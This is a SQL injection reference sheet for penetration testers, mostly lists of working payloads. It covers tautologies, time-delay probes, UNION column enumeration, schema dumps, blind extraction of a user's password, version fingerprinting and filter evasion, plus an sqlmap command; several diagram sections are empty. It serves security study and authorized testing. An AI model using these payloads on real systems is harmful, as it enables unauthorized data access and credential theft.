



SQL Injection
=============

## Overview

SQL injection (SQLi) is a type of data and control confusion vulnerability which arises when client side elements are combined with SQL queries in an insecure fashion. SQLi typically occurs when an attacker can escape parameters in the query early to directly alter the syntax of the query. 

## Anatomy of a SQL Query

### Vulnerable Login Query




## Tooling

### [SQL Map](https://github.com/sqlmapproject/sqlmap#sqlmap-)

+ Completely blind SQLi testing tool

#### Basic Scan

`python3 sqlmap.py -u https://target.domain.com?param_to_test=1`

### [jSQL](https://github.com/ron190/jsql-injection#description)

## Basic Identification Payloads

### Error Based

+ They payloads aim to create a malformed SQL query which violates the SQL syntax.
+ If debugging messages are enabled these payloads will produce error messages or broken pages

	`'`

	`"`

	`-- `

	`#`

	`,`

	`%`

#### Polyglot

`'/**/"# -- `

### Blind 

`' sleep(5)#`

`" sleep(5)#`

#### Polyglot

`'" 1 or sleep(5)# -- `
 
## General Payloads

### Overflow Filter Conditions

`' OR 1='1`

`' OR 1=1`

`" OR 1="1`

`" OR 1=1`

`' OR 'x'='x`

`' or "`

`-- or #`

`' OR '1` 

`' OR 1 -- -`

`" OR "" = "`

`" OR 1 = 1 -- -`

`' OR '' = '`

`'LIKE'`

`' LIKE 1=1`

`' LIKE 1`

`' HAVING 1=1`

`" HAVING 1=1`

`AND 1`

`AND 0`

`AND true`

`AND false`

`1-false`

`1-true`

### Order By && Group By Manipulation

`" ORDER BY 1`

`' ORDER BY 1`

`" GROUP BY 1,2`

`' GROUP BY 1,2`

`' GROUP BY column_names having 1=1 --`

### Blind/Time Delay Based

`' sleep(5)`

`" sleep(5)`

`' or sleep(5)`

`" or sleep(5)`


## Union Payloads

+ Union based payloads exploit a vulnerable query structure, typically containing a SELECT, to inject an appended query 
onto a legitimate query
+ In doing so leaking the response of the additional query out through the medium of the original query
	+ Response table
	+ Search results page
+ UNION based payloads require the exploiter to have knowledge of the number of columns referenced in the original query in order to craft a valid UNION statement

### Anatomy of a UNION Payload



### Column Number Enumeration

+ Aims to determine how many columns are present in a table via error checking
+ Once the injection yields an error the number of columns will be one less than the index of the current injection

#### Order By Approach

```
' ORDER BY 1-- 
' ORDER BY 2-- 
' ORDER BY 3-- 
' ORDER BY 4-- 
' ORDER BY 5-- error 
```
#### NULL Indexing

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

### General UNION Payloads

`' UNION SELECT number,of,columns FROM information_schema.tables; -- `

`" UNION SELECT number,of,columns FROM information_schema.tables; -- `

`' UNION SELECT number,of,columns FROM known_table_name; -- `


## Dump Schema

### MySQL > PostgreSQL > Microsoft

`SELECT * FROM information_schema.tables`

`SELECT * FROM information_schema.columns`

`SELECT * FROM information_schema.columns WHERE table_name = 'known_table_name'`


### Oracle

`SELECT * FROM all_tables`

`SELECT * FROM all_tab_columns`

## Blind Payloads

+ Blind SQLi occurs when a web application, or other infrastructure that communicates with a DB, is vulnerable to SQL injection but does not return debugging errors of any kind to the client
+ Therefore in order to exploit a blind SQL injection vulnerability an attacker must find a way to enumerate tables and columns in the database in order to exfiltrate database contents
+ This is typically done using SQL conditional statements and time delay queries  
	+ Many tools like SQLmap use this kind of approach
+ Alternatively an attacker can inject payloads and see which ones result in the page returning results or not

### Anatomy of a Blind SQLi Payload



### General Payloads

#### MySQL

`' UNION SELECT IF(SUBSTRING(table_name,1,1) = CHAR(character_decimal_value), sleep(5), 'no') FROM information_schema.tables LIMIT 1;# `

`' UNION SELECT IF(SUBSTRING(user_password,1,1) = CHAR(50),BENCHMARK(5000000,ENCODE('MSG','by 5 seconds')),null) FROM users WHERE user_id = 1;`

#### PostgreSQL

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`

#### Microsoft

`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10' `

## Payload Utilities

+ SQL artifacts to place within payloads

### SQL Comments 

#### MySQL

```
#

/*comment*/

-- note the space here is critical

```

#### SQLite

```
#

/**/

--comment
```

#### PostgreSQL

```
--comment

/*comment*/
```

#### Microsoft SQL

```
--comment

/*comment*/
```

#### Oracle

```
--comment
```

### Substrings

#### General Syntax

`SUBSTRING('the_string', start_index, number_of_chars)`

#### MySQL

`SUBSTRING('string', 1, 1)`

#### PostgreSQL

`SUBSTRING('string', 1, 1)`

#### Oracle

`SUBSTR('string', 1, 1)`

#### Microsoft

`SUBSTRING ('string', 1,1)`

### String Concatenation

+ Join strings together
	+ In some cases can be used to join columns

#### MySQL

`CONCAT(str,ing)`

#### PostgreSQL

`'str'||'ING'`

#### Oracle

`'str'||'ing'`

#### Microsoft

`'str'||'ing'`

### CHAR Codes

+ [ASCII table](https://www.asciitable.xyz)

## Fingerprinting Payloads

### Versions

+ Used to determine database version numbers

#### MySQL

`SELECT @@version`

#### PostgreSQL

`SELECT version()`

#### Oracle

`SELECT banner FROM v$version`

`SELECT version FROM v$instance`  

#### Microsoft

`SELECT @@version`

### Database Name

#### MySQL

`SELECT DATABASE()`

### System User

#### MySQL

`SELECT SYSTEM_USER();`

### Session User Instance

#### MySQL

`SELECT SESSION_USER();`

## Filter Evasion

### Bitwise Alternatives

### OR Replacement

`' || 1='1`

### AND Replacement

`' & 1='1'`

## Resources

+ [Portswigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
+ [Portswigger UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
+ [Portswigger SQLi](https://portswigger.net/web-security/sql-injection)
+ [OWASP Blind SQLi](https://owasp.org/www-community/attacks/Blind_SQL_Injection)
+ [Seclists zk blind](https://seclists.org/bugtraq/2005/Feb/att-288/zk-blind.txt)
+ [ASCII Tables](https://www.asciitable.xyz/)
+ [SQL W3C](https://www.w3schools.com/sql/default.asp)
+ [SQL map](https://github.com/sqlmapproject/sqlmap)
+ [SQLi Payloads](https://github.com/payloadbox/sql-injection-payload-list)
+ [JSQL](https://github.com/ron190/jsql-injection)
+ [Pentest-Tools Blog SQLi](https://pentest-tools.com/blog/sql-injection-attacks)
+ [SQL Syntax Notes](https://docs.google.com/document/d/1GA5L7uLJupvaW6j0L7agtpfKE21ifDzt_pSFvvUfNQU/edit?usp=sharing)
